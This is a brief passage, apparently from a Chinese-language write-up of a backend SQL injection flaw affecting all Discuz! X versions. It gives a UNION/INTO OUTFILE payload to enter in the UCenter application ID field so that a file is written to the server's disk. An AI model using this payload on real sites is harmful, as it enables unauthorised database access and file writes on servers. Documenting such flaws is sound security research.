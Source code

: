 ![](resource/Discuz!X系列全版本后台Sql注入漏洞/media/rId29.png)

构造报错注入

### 补充：

UCenter 应用 ID填入exp，然后提交

    1' union select 'abc'  into outfile 'c:\6.txt' -- a
